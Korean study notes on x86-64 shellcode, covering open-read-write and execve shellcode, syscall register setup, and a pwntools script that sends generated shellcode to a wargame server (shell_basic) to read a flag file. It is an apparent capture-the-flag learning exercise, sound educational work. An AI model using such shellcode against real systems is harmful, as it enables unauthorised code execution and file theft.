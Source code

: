 # 셸코드
- 익스플로잇을 위해 제작된 어셈블리 코드 조각을 일컫음
- rip를 자신이 작성한 셸코드로 옮길 수 있으면 원하는 어셈블리 코드를 실행시킬 수 있음

### orw 셸코드
- ex. "tmp/flag"를 읽는 코드 작성
~~~cpp
char buf[0x30];

int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30); 
write(1, buf, 0x30);
~~~
  - 이를 작성하기 위해 알아야하는 ___syscall ___ 들
![Alt text](/syscall1.png)

- 각 줄들을 어셈블리어로 표현
    - 1. "/tmp/flag"라는 문자열을 메모리에 위치시키기
      - syscall = open, rax = 0x2, const char *filename, int flags, umode_t mode
      - but 스택에는 8바이트 단위로만 값을 push할 수 있음(64비트) 따라서 리틀 엔디안 형태의 /tmp/flag의 리틀 엔디안 코드중 0x67을 우선 푸시하고 0x67616c662f706d742f에서 0x67을 제외한 나머지를 push한다.
      - 그리고 rdi가 이를 가리키도록 rsp를 rdi로 옮긴다
      - O_RDONLY는 0이므로, rsi는 0으로 설정함
      - RDONLY이면 0, WRONLY이면 1, write와 RDWR라면 2이다.
      - ___ rax, rdi, rsi, rdx 인자에 각각 값을 넣어서 syscall을 실행시킴 ___
        - rax : 연산결과 저장, 함수의 반환값 저장, syscall 번호 저장
        - rdi : 첫 번째 인자(argument)를 저장
        - rsi : 두 번째 인자(argument)를 저장
        - rdx : 세 번째 인자(argument)를 저장
      - rax: open(2), read(0), write(1) => 첫 줄에선 open으로 rax에 2로 설정
      - rdi: "/tmp/flag"라는 파일 경로 설정
      - rsi: 읽기전용이므로 0 => open syscall 일때만 생각
      - rdx: 파일 권한 or 추가 옵션
    - 2. read(fd, buf, 0x30) 분석
      - 파일을 읽어오는 시스템 호출
      - rax: raed(0) 0으로 설정
      - rdi 에서는 </u>fd</u>라는 파일 디스크립터를 사용하며 rdi에 저장됨
      - rsi: 메모리 주소 설정, 0x30만큼 읽으므로 rsp-0x30을 대입
      - rdx: 파일로부터 읽어낼 길이, 크기 설정
    - 3. write(1,buf,0x30) 분석
      - rax: wirte(1)이므로 1로 설정
      - rdi: stdout(표준 출력)을 의미하는 1로 설정 (stdin은 0, stderr은 2이다.)
      - rsi: 앞서 read()로 읽어온 데이터를 담고 있음
      - rdx: 데이터 크기

### execve 셸코드
- 임의의 프로그램을 실행하는 코드
- 셸(shell)이란 운영체제에 명령을 내리기 위해 사용되는 사용자 인터페이스
- 커널이란 셸과 대비되며 운영체제의 핵심 기능을 담당함
- 최신 리눅스는 sh, bash를 기본 쉘 프로그램으로 탑재하고 있으며 execve셸코드를 통해 셸을 획득하면 시스템 해킹의 성공으로 여김
- - execve 셸코드는 execve 시스템 콜로만 이루어짐
![Alt text](/syscall2.png)
  - rax : 0x3b => execve 시스템 콜 호출 번호이다
  - rdi : 실행할 프로그램의 경로, 파일 경로 
  - rsi : 프로그램에 전달할 인자 리스트 (NULL 가능)
  - rdx : 환경 변수 리스트(NULL 가능)

### orw 코드 실습(shell_basic)
- execve 시스템 콜은 막혀 orw 사용하며 ___ "/home/shell_basic/flag_name_is_loooooong" ___ 파일을 읽어야 함
- 1. C언어 스켈레톤을 이용하여 푸는 것
- 2. 파이썬 모듈 중 pwntools의 shellcraft를 이용하여 풀기
  - 1번은 아직 C언어에 대한 기초가 없어 2번을 선택함
~~~cpp
from pwn import *

p = remote("접속할 서버 주소소", 포트번호)

# 쉘 코드는 환경에 따라 영향을 받기 때문에, 먼저 아키텍처 정보를 x86-64로 지정해줍니다.
context.arch = "amd64"
# open할 flag 파일 path
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)	# open("/home/shell_basic/flag_name_is_loooooong")
# open() 함수 결과는 rax 레지스터에 저장된다. → fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)	# read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)	# write(stdout, buf, 0x30)
shellcode = asm(shellcode)	# shellcode를 기계어로 변환

payload = shellcode    # payload = shellcode
p.sendlineafter("shellcode: ", payload)    # "shellcode: "가 출력되면 payload + '\n'을 입력
print(p.recv(0x30))    # p가 출력하는 데이터를 0x30 Byte 까지 받아서 출력
~~~
    - shellcraft에서 open, read, write를 모두 지원하여 인자만 잘 써주면 됨
    - shellcraft.open(path)는 open(path,O_RDONLY)를 실행함, 파일 디스크립터(fd)는 rax에 저장됨
    - shellcraft.read('rax','rsp',0x30)에서는 rax에 저장된 파일 디스크립터를 사용하여 파일 내용을 rsp(스택 메모리)에 0x30 바이트만큼 읽음
    - shellcraft.write(1,'rsp',0x30)에서는 표준출력(stdout,1)을 사용하고 rsp에 저장된 데이터를 출력함
    - shellcode = asm(shellcode)는 shellcode로 생성한 어셈블리어를 실행가능한 기계어로 변환함
    - payload = shellcode \n p.sendlineafter("shellcode: ", payload) \n print(p.recv(0x30)) 에서는 "shellcode: " 프롬프트가 나타나면 payload(셸코드)를 전송함
      - 서버가 반환하는 데이터를 0x30바이트만큼 출력함